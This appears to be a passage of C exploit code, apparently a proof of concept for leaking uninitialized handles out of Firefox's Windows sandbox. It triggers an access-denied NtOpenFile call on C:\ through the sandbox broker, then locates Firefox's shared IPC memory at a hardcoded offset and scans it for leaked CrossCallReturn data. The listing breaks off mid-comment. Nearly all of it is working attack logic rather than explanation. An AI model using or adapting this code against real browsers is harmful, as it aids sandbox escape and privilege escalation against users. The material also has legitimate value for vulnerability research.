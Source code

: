 ```c

typedef struct _CrossCallReturn {
	uint32_t tag;
	ResultCode call_outcome;
	uint32_t padding; // to reflect the size of the actual structure!
	uint32_t padding2;
	union {
		NTSTATUS nt_status;
		DWORD    win32_result;
	};
	uint32_t extended_count;
	HANDLE handle;
} CrossCallReturn;

void doOpenFile() {
	NT_OPEN_FILE NtOpenFileStruct;
	_RtlInitUnicodeString __RtlInitUnicodeString;
	HMODULE  hModule = NULL;
	HANDLE file = NULL;
	UNICODE_STRING filename;
	OBJECT_ATTRIBUTES obja;
	IO_STATUS_BLOCK iostatusblock;

	hModule = LoadLibraryA("ntdll.dll");
	NtOpenFileStruct = (NT_OPEN_FILE)GetProcAddress(hModule, "NtOpenFile");
	__RtlInitUnicodeString = (_RtlInitUnicodeString)GetProcAddress(hModule, "RtlInitUnicodeString");

	// we can't open C:\\
	// string length affects uninitialized memory
	__RtlInitUnicodeString(&filename, L"\\??\\C:\\");
	InitializeObjectAttributes(&obja, &filename, OBJ_CASE_INSENSITIVE, NULL, NULL);

	// trigger, go to TargetOpenFile
	NtOpenFileStruct(&file, FILE_WRITE_DATA, &obja, &iostatusblock, 1, NULL); // should trigger an access denied
}

PUINT32 getSharedIPCMemory() {
	unsigned long sharedMemory;
	sharedMemory = (unsigned long)GetModuleHandleA("firefox.exe");
	sharedMemory += OFFSET_TO_G_SHARED_IPC_MEMORY;
	sharedMemory = *(unsigned long*)sharedMemory;
	return sharedMemory;
}


UINT32 leakFromSandbox()
{
	PUINT32 sharedMemory;
	CrossCallReturn* ret = (CrossCallReturn*)malloc(sizeof(CrossCallReturn)*2);
	memset(ret, 0x41, sizeof(CrossCallReturn)*2);
	size_t i = 0;

	// trigger uninitialized handle leak

	doOpenFile();

	// look for firefox!g_shared_IPC_memory
	sharedMemory = getSharedIPCMemory();

	// scan shared memory (firefox!g_shared_IPC_size = 0x2000)
	// we look for a CrossCallReturn with
```